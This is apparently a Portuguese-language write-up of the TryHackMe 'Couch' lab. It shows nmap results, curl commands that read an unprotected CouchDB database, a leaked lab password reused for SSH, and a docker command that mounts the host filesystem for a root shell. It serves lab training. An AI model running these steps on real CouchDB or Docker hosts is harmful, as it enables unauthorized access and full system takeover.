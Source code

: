 # Couch
https://tryhackme.com/room/couch

## Recon

### NMAP

    PORT     STATE SERVICE
    22/tcp   open  ssh
    5984/tcp open  couchdb 1.6.1

### Enum CouchDB

#### Databases

```sh
curl -X GET http://<IP>:5984/secret/_all_dbs
```
- users
- couch
- secret

Usando o curl para poder puxar os dados:

```sh
curl -X GET http://<IP>:5984/secret/_all_docs
curl -X GET http://<IP>:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
```
- **ID:** a1320dd69fb4570d0a3d26df4e000be7
- **passwordbackup:** atena:t4qfzcc4qN## -> ssh

OBS: Em /_utils é possível acessar a db pela web.

## Privesc

No __history__ tem um comando docker que da acesso ao root

```sh
docker -H tcp://127.0.0.1:2375 run --rm -ti -v /:/mnt alpine chroot /mnt /bin/sh
```
